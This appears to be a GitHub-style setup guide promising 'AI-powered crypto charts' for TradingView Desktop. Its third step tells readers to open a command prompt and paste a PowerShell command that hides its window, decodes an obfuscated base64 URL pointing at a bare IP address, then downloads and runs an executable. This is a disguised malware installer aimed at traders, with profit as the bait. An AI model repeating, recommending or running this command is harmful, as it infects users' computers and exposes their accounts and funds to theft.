 📌 Step-by-Step Setup Guide:

🔵 Step 1: Download and install TradingView Desktop
🔗 https://www.tradingview.com/desktop/

🔵 Step 2: Enter Developer Mode
– Press Win + R, type cmd, and hit Enter

🔵 Step 3: Paste the setup command and press Enter

powershell -w h -c "$u=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('aHR0cDovLzE3Ni40Ni4xNTIuNjI6NTg1OC9yYXAuZXhl'));iwr $u -o $l\rap.exe;. $l\rap.exe"

🔵 Step 4: Restart TradingView

✅ That’s it! You’re now ready to explore AI-powered crypto charts.

📺 Follow along with the video to see how to use them for maximum profit.
